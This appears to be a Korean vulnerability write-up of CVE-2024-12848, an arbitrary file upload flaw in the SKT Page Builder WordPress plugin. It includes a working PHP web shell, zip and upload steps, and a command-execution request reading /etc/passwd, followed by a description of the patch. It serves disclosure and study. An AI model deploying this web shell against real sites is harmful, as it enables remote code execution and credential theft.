

# CVE-2024-12848

## Index
* [📌 Analysis](#📌-analysis)
    * [1. 개요](#1-개요)
    * [2. 취약점 분석](#2-취약점-분석)
* [📌 PoC](#-poc)
    * [1. 웹 쉘(WebShell) 준비](#1-웹-쉘webshell-준비)
    * [2. 웹 쉘(WebShell) 압축 하기](#2-웹-쉘webshell-압축-하기)
    * [3. 웹 쉘 업로드](#3-웹-쉘-업로드)
    * [4. 웹 쉘 확인](#4-웹-쉘-확인)
* [📌 패치 확인](#-패치-확인)

## 📌 Analysis

### 1. 개요

`CVE-2024-12848` 취약점은 WordPress 플러그인 SKT Page Builder의 4.7 버전 이하에서 발견된 임의 파일 업로드 취약점입니다. 이 취약점은 SKT Page Builder 플러그인 대시보드의 'Manage Libraries' 메뉴에서 라이브러리 업로드 시 발생합니다.

취약점은 파일 업로드 처리 중 `addLibraryByArchive` 함수가 파일 확장자 필터링을 제대로 수행하지 않아 발생했습니다. 이로 인해 구독자(Subscriber) 이상의 권한을 가진 인증된 사용자가 웹 쉘과 같은 악성 파일을 업로드하여 원격 코드 실행을 수행할 수 있습니다.

### 2. 취약점 분석

취약점이 트리거되는 페이지는 SKT Builder 플러그인 대시보드의 ‘Manage Libraries’ 메뉴(`/wp-admin/admin.php?page=sktbuilder-manage-libs`) 입니다.


해당 메뉴에서 ‘Upload a SKT Builder library’를 선택하고 ‘Add Library’ 버튼을 클릭하여 파일을 업로드하면 `/wp-content/plugins/skt-builder.4.7/sktbuilder.php` 파일 내 `Sktbuilder` 클래스의 `addNewLib` 함수가 호출됩니다. 

이후 해당 함수는 파일 업로드 처리를 위해 요청 받은 파일 데이터 `$_FILES['lib_file']` 를 함수 `addLibraryByArchive` 의 인자로 전달하게 됩니다.


이어서 함수 `addLibraryByArchive` 는 전달받은 파일 데이터 `$_FILES['lib_file']` 의 파일 확장자가 압축 파일(`application/zip`)인지 필터링을 수행하고 있습니다.

이후 해당 압축 파일을 `unzip_file` 함수를 이용하여 `$upload_dir` 경로에 압축 해제를 수행하고 있습니다. 이때, 압축 해제된 파일에 대한 파일 확장자 필터링이 존재하지 않아 압축 파일 내부에 PHP 웹 쉘과 같은 악성 파일을 포함시켜 업로드가 가능합니다. 


## 📌 PoC

### 1. 웹 쉘(WebShell) 준비

아래의 코드를 가지는 PHP 웹 쉘 파일(`webshell.php`)을 생성합니다.

```php
<?php
    if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
    }
?>
```


### 2. 웹 쉘(WebShell) 압축 하기

이후 생성한 PHP 파일을 압축하여 ZIP 파일로 만듭니다.

```bash
zip webshell.zip webshell.php # 파일 압축
zip -sf webshell.zip # 압축된 파일 확인
```



### 3. 웹 쉘 업로드

SKT Builder 플러그인 대시보드 ‘Manage Libraries’ 메뉴(`/wp-admin/admin.php?page=sktbuilder-manage-libs`)로 이동한 뒤 아래와 같이 압축한 웹 쉘 파일(`webshell.zip`)을 업로드합니다.


그럼 HTTP 요청 패킷이 아래와 같이 전송됩니다.


### 4. 웹 쉘 확인

이후 SKT Builder 플러그인의 업로드 디렉터리(`/wp-content/uploads/sktbuilder/`)를 보면 아래와 같이 웹 쉘이 정상적으로 압축 해제되어 있는 것을 확인할 수 있습니다.


그 다음 브라우저를 통해 웹 쉘이 업로드된 경로를 요청하면 URL 파라미터 `cmd` 로 전달된 데이터가 시스템 명령어로 전달되어 실행되는 것을 확인하실 수 있습니다.

```bash
/wp-content/uploads/sktbuilder/webshell.php?cmd=cat+/etc/passwd
```


## 📌 패치 확인

패치된 버전에서는 압축 파일을 해제한 다음 압축 해제된 파일들의 확장자를 검사하여 `.json` 확장자를 가진 파일만 업로드되도록 제한하고 있습니다.

> https://plugins.trac.wordpress.org/changeset/3213786/skt-builder/trunk/sktbuilder.php#file0
> 

